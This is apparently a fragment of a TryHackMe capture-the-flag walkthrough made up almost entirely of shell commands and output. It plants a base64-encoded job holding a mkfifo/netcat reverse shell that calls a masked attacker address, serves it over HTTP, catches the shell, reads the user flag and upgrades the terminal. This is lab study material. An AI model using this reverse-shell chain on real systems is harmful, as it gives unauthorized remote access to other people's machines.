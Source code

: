 <img width="1222" height="184" alt="image" src="https://github.com/user-attachments/assets/01bb144a-9a67-4338-b2f1-a43d978b95cb" />


<br>
<br>

```bash
:~# echo '{"job_id": 1, "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1|nc xx.xxx.xx.xx xxxx >/tmp/f"}' | base64 > get-job/ImxhdGVzdCI=
```

```bash
:~# python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
...
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xx 52044
bash: cannot set terminal process group (1364): Inappropriate ioctl for device
bash: no job control in this shell
ada@...:~$ pwd
pwd
/home/ada
```

``bash
ada@...:~$ id
id
uid=1001(ada) gid=1001(ada) groups=1001(ada)
```

```bash
ada@...:~$ ls
ls
products.py
user.txt
```

```bash
ada@...:~$ cat user.txt
cat user.txt
THM{********************************}
```

```bash
ada@...:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
ada@...:~$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~# stty raw -echo && fg;
nc -nlvp 4444

ada@...:~$ export TERM=xterm
```
